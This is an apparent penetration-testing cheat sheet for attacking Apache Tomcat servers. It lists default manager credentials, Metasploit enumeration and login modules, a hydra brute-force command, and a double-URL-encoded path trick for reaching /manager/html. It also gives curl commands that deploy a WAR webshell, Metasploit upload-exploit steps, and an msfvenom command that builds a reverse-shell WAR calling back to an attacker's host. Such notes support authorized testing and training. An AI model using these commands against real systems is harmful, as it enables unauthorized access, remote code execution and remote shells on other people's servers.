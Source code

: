 ```yaml
---
layout: default
title: Tomcat
parent: Services
grand_parent: Enumeration
nav_order: 6
---
```


# Tomcat Enumeration
{: .no_toc }

### Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

In some versions prior to Tomcat6 you could enumerate users:

`msf> use auxiliary/scanner/http/tomcat_enum`

### Default credentials

The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic TTP auth, the most common credentials are:

- admin:admin
- tomcat:tomcat
- admin:<NOTHING>
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat

You could test these and more using:

```
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

### Tomcat Bruteforce

```
hydra -L users.txt -P <WORDLIST PATH> -f <TARGET IP> http-get /manager/html
```

### Vulns

In order to access to the management web interface of Tomcat navigate to: `pathTomcat/%252E%252E/manager/html`
Take into consideration that to upload the webshell you may need to use double URL encoding

### RCE

If you have access to the Tomcat Web Application Manager, you can upload and deploy a .war file (Remote Code Execution).

#### Limitations

You will only be able to deploy a WAR if you have enough privileges (roles: admin, manager and manager-script). Those details can be found in tomcat-users.xml usually defined in 

`/usr/share/tomcat9/etc/tomcat-users.xml`


*Tomcat7 and above uses /manager/text/undeploy and /manager/text/deploy paths*
*tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed*

**Deploy under "path" context path**

```
curl --upload-file shell.war.war "http://tomcat:Password@localhost:8080/manager/deploy?path=/shell.war"
```

**Undeploy**

```
curl "http://tomcat:Password@localhost:8080/manager/undeploy?path=/shell"
```

### Metasploit

```
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### Reverse Shell .WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP ADDRESS> LPORT=80 -f war -o revshell.war
```